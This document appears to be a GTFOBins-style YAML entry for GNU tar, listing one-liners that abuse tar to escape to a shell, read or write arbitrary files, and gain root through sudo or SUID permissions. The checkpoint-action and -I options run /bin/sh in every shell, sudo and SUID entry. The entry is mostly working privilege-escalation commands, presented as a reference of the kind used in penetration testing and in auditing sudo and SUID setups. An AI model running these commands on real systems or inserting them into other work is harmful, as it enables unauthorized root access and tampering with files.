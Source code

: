 ```yaml
---
functions:
  shell:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  limited-suid:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

